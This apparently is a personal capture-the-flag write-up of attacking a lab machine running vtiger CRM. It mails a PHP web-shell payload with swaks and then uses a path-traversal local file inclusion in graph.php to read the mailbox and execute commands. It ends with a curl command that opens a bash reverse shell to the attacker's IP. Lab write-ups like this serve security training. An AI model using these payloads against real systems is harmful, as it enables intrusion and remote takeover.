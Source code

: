 
So, this is a bit complicated but if we now know that these users are verified with SMTP

The idea is to send an email to them with a malicious payload and have the web application read it back to us in order to execute.

Enter `swaks`
![[Pasted image 20240711213619.png]]


```
sudo swaks --to asterisk@localhost --from admin@vtiger.htb --header "Urgent Open Now:" --body 'Click here immeditaley <?php system($_REQUEST["cmd"]); ?>' --server 10.10.10.7
```
![[Pasted image 20240711214025.png]]

So now we can use the LFI command to view `asterisk` email 
```
 curl -ks 'https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//var/mail/asterisk%00&module=Accounts&action'
```
![[Pasted image 20240711214408.png]]


Lets try to execute a command using LFI command
```
 curl -ks 'https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//var/mail/asterisk%00&module=Accounts&action?cmd=ls'
```
![[Pasted image 20240711214652.png]]
The php system call did not work...




Try `--data-urlencode`
```
 curl -ks 'https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//var/mail/asterisk%00&module=Accounts&action' --data-urlencode 'cmd=ls'
```
![[Pasted image 20240711214921.png]]



The php `cmd` parameter is being passed as a POST Request
We were trying to pass this as a GET request with php - which did not work

Sometimes we need to `url encode` the arguments
Usually cant go wrong encoding
```
sudo curl --help all
```
![[Pasted image 20240711215231.png]]


Now get a reverse shell through this method
```
 curl -ks 'https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//var/mail/asterisk%00&module=Accounts&action' --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.16.2/443 0>&1"'

```
![[Pasted image 20240711220249.png]]
*I tried on port 9001 and did not succeed*
